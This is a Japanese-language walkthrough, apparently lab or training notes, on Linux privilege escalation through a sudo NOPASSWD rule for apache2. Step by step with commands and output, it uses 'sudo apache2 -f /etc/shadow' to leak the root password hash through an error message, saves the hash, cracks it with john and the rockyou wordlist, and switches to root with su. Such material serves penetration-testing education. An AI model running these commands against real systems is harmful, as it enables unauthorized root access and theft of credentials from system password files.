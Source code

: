 意図された機能の悪用   
エスケープシーケンスがないプログラムでも、特権の昇格に利用できる場合があります。   
rootが所有するファイルを読むことができれば、有用な情報（パスワード、ハッシュ、キーなど）を抽出できるかもしれません。    
rootが所有するファイルに書き込むことができれば、情報を挿入したり、変更したりすることができるかもしれない。または情報を変更できるかもしれません。   
# Privilege Escalation
1. ユーザーがsudoで実行を許可されているプログラムをリストアップします。
```
$ sudo -l
...
(root) NOPASSWD: /usr/sbin/apache2
```
apache2がリストに入っていることに注意してください。
2. apache2 は既知のシェルエスケープシーケンスを持ちませんが、与えられた設定ファイルをパースする際に、 理解できない行があるとエラーになり、表示されます。
3. sudoでapache2を起動し、設定ファイルとして/etc/shadowファイルを指定します。
```
$ sudo apache2 -f /etc/shadow
Syntax error on line 1 of /etc/shadow:
Invalid command 'root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::', perhaps misspelled or defined by a module not included in the server configuration
```
4. ファイルからルートユーザーのハッシュを抽出する。
5. パスワードのハッシュ値をファイル（例：hash.txt）に保存します。
```
$ echo '$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0' > hash.txt'
```
6. johnを使ってパスワードのハッシュをクラックする。
```
$ john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
...
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 SSE2 2x])
Press 'q' or Ctrl-C to abort, almost any other key for status
password123 (?)
```
7. suコマンドでrootユーザーに切り替え、プロンプトが表示されたら解読したパスワードを入力します。
```
$ su
Password:
root@debian:/# id
uid=0(root) gid=0(root) groups=0(root)
```
